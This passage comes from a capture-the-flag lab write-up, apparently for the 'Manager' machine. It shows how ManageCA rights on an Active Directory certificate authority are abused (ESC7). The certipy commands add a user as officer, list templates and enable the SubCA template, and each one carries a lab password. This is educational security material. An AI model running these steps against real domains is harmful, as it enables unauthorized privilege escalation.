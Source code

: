 ![Untitled](assets/Manager/vulnCA.png)

We can see we have dangerous privileges(**ManageCA**) on the cert Authorities, we can grant yourself the Manage Certificates access right by adding your user as a new officer. basically we will follow the operating path of exploiy a Certificate Authority (ESC7). 

```bash
# add raven to officer
certipy ca -u "raven@mamanger.htb" -p 'R4v3nBe5tD3veloP3r!123' -dc-ip "10.10.11.236" -ca 'manager-DC01-CA' -add-officer 'raven'

# List all the templates
certipy ca -u "raven@mamanger.htb" -p 'R4v3nBe5tD3veloP3r!123' -dc-ip "10.10.11.236" -ca 'manager-DC01-CA' -list-templates

# Enable the 'SubCa' certificate template
certipy ca -u "raven@mamanger.htb" -p 'R4v3nBe5tD3veloP3r!123' -dc-ip "10.10.11.236" -ca 'manager-DC01-CA' -enable-template 'SubCA'
```

This request will be denied, but we will save the private key and note down the request ID.
